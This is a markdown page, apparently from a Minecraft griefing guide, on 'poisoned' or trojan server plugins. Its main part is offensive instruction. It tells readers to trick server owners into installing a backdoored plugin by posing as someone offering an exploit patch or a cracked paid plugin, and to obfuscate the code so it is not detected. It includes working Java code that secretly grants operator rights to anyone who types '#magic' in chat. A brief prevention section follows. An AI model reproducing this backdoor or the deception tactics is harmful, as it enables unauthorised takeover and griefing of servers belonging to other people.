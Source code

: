 # Poisoned Plugin

**Overview**

A poisoned plugin (also called a backdoored or trojan plugin) is a plugin that can be used to gain yourself administrator privileges on a Minecraft server. The idea is to trick the server owner or administrator to install a malicious plugin on their server. How do you do that? This requires some social engineering.

A trojan is a piece of malware that looks legitimate, but it's purpose and execution is malicious. The term is derived from the Ancient Greek story of the deceptive Trojan Horse that led to the fall of the city of Troy. The Greeks built a wooden horse and gave it to the Troys, making them think they had surrendered. The Troys accepted the horse and moved it inside of the city. What they didn't know was that the horse was hollow and filled with Greek soldiers, ready to slay.

You can make the server owner or administrator install the plugin by first finding an exploit or bug on the server. This could e.g. be a crash exploit. Tell the owner that you discovered the exploit, and you have a patch for it. Send them the legit-looking plugin, and make them install it on the server. When it's installed, you can then use it's feature to gain OP and grief the server.

An other way to make them intall it, is by telling them that you've got a cracked version of a paid plugin. E.g. Advanced Anti Cheat (AAC).

This griefing method requires a little knowledge in Java programming, as you need to develop your own plugin.

If you know how to script scripts using Skript or Denizen, you can obtain the same result. Of course you need to hide the code better e.g. by obfuscating it (make the code look confusing), as the server owner or administrator can easily read it. Same goes for Java plugins. You can obfuscate Skript scripts by using [Obfuskator](https://www.spigotmc.org/resources/skript-tool-obfuskator-jar-encapsulation.60791), and [ProGuard](https://sourceforge.net/projects/proguard) for Java plugins.

Here's an example of what a very simple unobfuscated poisoned plugins code in Java could look like:
```java
public class main extends JavaPlugin implements Listener {

    public void onEnable() {
        this.getServer().getPluginManager().registerEvents((Listener)this, (Plugin)this);
    }
    
    @EventHandler
    public void onPlayerChat(PlayerChatEvent event) {
        if (event.getMessage().startsWith("#magic")) {
            event.setCancelled(true);
            event.getPlayer().setOp(true);
        }
    }
}
```

**Prevention**

Always make sure the plugins and scripts you installed on your server are legitimate, and not backdoored.

Don't trust random people that tries to make you install a plugin or script on your server. If in doubt, use a Java decompiler to read the code of the plugin, and any text editor for scripts. If the code is obfuscated, and you're not 100% sure if the plugin or script is legit, don't install it on your server.